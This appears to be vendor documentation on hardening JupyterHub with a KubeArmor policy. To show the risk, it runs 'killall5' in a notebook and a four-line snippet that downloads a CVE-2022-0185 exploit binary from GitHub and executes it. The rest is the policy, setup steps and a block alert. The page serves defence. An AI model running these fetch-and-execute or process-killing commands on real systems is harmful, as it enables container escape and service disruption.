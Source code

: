 ```yaml
---
title: Jupyter Notebook
description: AccuKnox can help in securing Jupyter Notebook by preventing remote command injection and unauthorized access to kubernetes resources.
---
```


# Jupyter Notebook

JupyterHub brings the power of notebooks to groups of users. It gives users access to computational environments and resources without burdening the users with installation and maintenance tasks. While this is a great model, attackers, or unethical users might take undue advantage of this model. The very nature of the Jupyter notebook is to allow users to do remote command/code execution.

Remote Command Injection is just the start. Left unchecked, the attacker can gain unauthorized access to the kubernetes resources, exfiltrate data and mount supply chain attacks to name a few.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-0.png)

### **Insecure Shell**

On a shell of jupyter notebook, any of the binaries are allowed to execute by default. If we try to execute some system binaries, it is observed that there is no restriction to do so. For example, consider the ```killall5``` system binary.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-1.png)

Executing ```killall5``` in Jupyter notebook isn’t restricted. The binary terminates all running processes and even affects the kubernetes environment as we can observe the pod getting restarted as the container crashes.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-2.png)

### **Remote Code Injection**

Jupyter notebook by nature allows remote code injection and execution of binaries from any source. To demonstrate this, an exploit for CVE-2022-0185 can be used as provided below:

```sh
!touch exploit
import urllib.request
urllib.request.urlretrieve("https://github.com/nyrahul/CVE-2022-0185/raw/master/exploit", "exploit")
!chmod +x exploit
!./exploit
```

On running the above in the notebook, we can see the exploit binary getting executed without any resistance.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-3.png)

Such an open environment is not desirable and AccuKnox can help with restricting this behavior by the use of KubeArmor policies.

### **Attack Prevention**

The following policy can be used to protect the Jupyter Notebook:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: protect-jupyter
  namespace: jupyter
spec:
  selector:
    matchLabels:
      app: jupyterhub
      component: singleuser-server
  network:
    matchProtocols:
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: udp
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: tcp
  file:
    matchDirectories:
    - dir: /
      recursive: true
    - dir: /usr/local/bin/
      readOnly: true
    - dir: /bin/
      readOnly: true
    - dir: /usr/bin/
      readOnly: true
  process:
    matchDirectories:
    - dir: /usr/local/bin/
    - dir: /usr/bin/
    - dir: /bin/
  action: Allow
```

The above KubeArmor policy

- Allows only python to use network primitives

- Allows only read access to ```/usr/local/bin/``` and ```/bin/``` folders

- Allows execution only from ```/usr/local/bin/``` and ```/bin/``` folders

### **Preventing exploitation by using AccuKnox Zero Trust CNAPP**

**Step 1**:  To create the policy Navigate to Runtime Protection → Policies. Then select ***Create Policy*** option from the screen.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-4.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, save and then select **Save to workspace** option.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-5.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting ***Apply Policy***.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-6.png)

**Step 4**: Since this is an allow based policy, to effectively make use of it, we’ll need to set the default posture to block.

- **Step 4.1**: Navigate to Inventory → Cloud Workloads. Select the cluster that has jupyterhub deployed and click on **View Workloads**

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-7.png)

- **Step 4.2**: Click on info at the top of the namespace where jupyterhub is deployed. Then select **Edit** in the pop up that opens

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-8.png)

- **Step 4.3**: Click on the slider to the left of Process/File to shift to the default deny mode. A green popup appears on successful update.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-9.png)

**Step 5**: Now try executing ```!killall5``` in the jupyter notebook instance.

Try downloading and executing the exploit of CVE-2022-0185 with the script that was introduced above.

![jupyter-notebook-security-steps-accuknox](images/jupyter-notebook/jupyter-10.png)

Alerts are generated for the attempts to exploit:

```sh
root:
  Action:Block
  ClusterName:gke-demo
  ContainerID:36e9a4bcf13b3e72aac683dc864414f7d122792b9f8d734f8b230a588cdfdb05
  ContainerImage:quay.io/jupyterhub/k8s-singleuser-sample:3.3.5@sha256:a839b70b9061119ef4117f37f25133d68294c764ae1c1048726c3e65b809d8eb
  ContainerName:notebook
  Cwd:/
  Data:lsm=SECURITY_BPRM_CHECK
  Enforcer:BPFLSM
  HostName:gke-do-637-cluster-pool-1-6a8519c6-d7x3
  HostPID:3410014
  HostPPID:3410013
  Labels:hub.jupyter.org/servername=,hub.jupyter.org/username=user1,release=jupyter-release,app=jupyterhub,chart=jupyterhub-3.3.5,component=singleuser-server,heritage=jupyterhub,hub.jupyter.org/network-access-hub=true
  NamespaceName:jupyter
  Operation:Process
  Owner:
    Name:jupyter-user1
    Namespace:jupyter
    Ref:Pod
  PID:49
  PPID:48
  ParentProcessName:/bin/dash
  PodName:jupyter-user1
  PolicyName:DefaultPosture
  ProcessName:/home/jovyan/exploit
  Resource:/home/jovyan/exploit
  Result:Permission denied
  Source:/bin/dash
  Timestamp:1712060619
  Type:MatchedPolicy
  UID:1000
  cluster_id:25444
  component_name:kubearmor
  instanceGroup:0
  instanceID:0
  workload:1
```

The result is permission denied for both as the policy applied does not allow any process to execute other than the ones present in ```/usr/local/bin```, ```/usr/bin/``` and ```/bin/``` directories. In addition, since the policy also prevents write to these directories, the jupyter environment is shielded from execution of malicious code by attackers.